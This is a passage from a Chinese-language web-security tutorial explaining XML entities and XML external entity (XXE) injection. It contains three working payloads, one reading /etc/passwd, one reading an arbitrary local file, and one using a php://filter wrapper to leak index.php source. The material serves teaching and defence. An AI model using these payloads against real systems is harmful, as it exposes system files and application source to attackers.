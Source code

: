 -   内部实体定义：<!ENTITY author "John Doe">定义了一个名为 author 的内部实体，其值为"John Doe"
-   外部实体定义：<!ENTITY company SYSTEM "company.txt"> 定义了一个名为 company 的外部实体，它从位于"company.txt"文件中的内容中获取值

在 XML 文档的内容中，我们使用了这些实体：

-   <author>&author;</author>：使用&author; 引用了内部实体 author，将其替换为"John Doe"
-   <publisher>&company;</publisher>：使用&company;引用了外部实体 company，将其替换为"company.txt"文件中的内容

### 实体引用方法

实体由三部分构成：&符号、实体名称、分号 (;)，这里&不论在 GET 还是在 POST 中都需要进行 URL 编码，因为是使用参数传入 XML 的，&符号会被认为是参数间的连接符号，示例：

```bash
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>

<foo>&xxe;</foo>
```

## 实体注入

XML 实体关键字'SYSTEM'会令 XML 解析器从 URI 中读取内容并允许它在 XML 文档中被替换，因此攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现，简单来说就是攻击者强制 XML 解析器去访问攻击者指定的资源内容 (可能是系统上本地文件亦或是远程系统上的文件)，比如下面的代码将获取系统上 folder/file 的内容并呈献给用户  
Code1:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>

<foo>
     <value>&passwd;</value>
</foo>
```

Code2:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>

<foo>
     <value>&entityex;</value>
</foo>
```

Code3:

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>

<root>
    <name>&xxe;</name>
</root>
```
